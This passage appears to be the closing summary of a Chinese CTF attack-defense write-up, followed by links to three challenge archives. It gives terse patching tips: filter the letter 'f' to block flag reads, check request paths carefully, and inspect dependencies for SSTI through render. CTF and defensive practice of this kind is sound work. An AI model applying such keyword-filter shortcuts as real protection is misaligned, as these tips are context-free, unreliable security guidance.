[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193341-e4539b86-d49a-1.png)

# 总结

-   不一定要过滤很多很多，其实过滤一两个就差不多了，特别注意，没必要禁用 flag，禁用 f 就好了差不多了
-   多尝试，一定一定要看清楚路径！！！这个太重要了 只要有问题，可以先删掉功能点看服务是否异常或者是多路径 (可疑路径都传一遍不就得了) 传参，比如如下图所示
    
-   不一定写少代码有好处，能多执行就执行啊
    
-   要多看依赖！SSTI 那个导依赖看 render 就过滤依赖至关重要了
    

security\_system\_c996749b8786835caefed28db2d76953.zip (15.173 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229144307-cc176f9a-d6cd-1.zip)

ezcache\_46a36a7fc92468cddf08cd7c45883491.zip (6.448 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229144328-d86744e6-d6cd-1.zip)

whatis\_b5c7dafbafaecfd053fb350b5daf0875.zip (10.416 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229144337-ddb78c26-d6cd-1.zip)
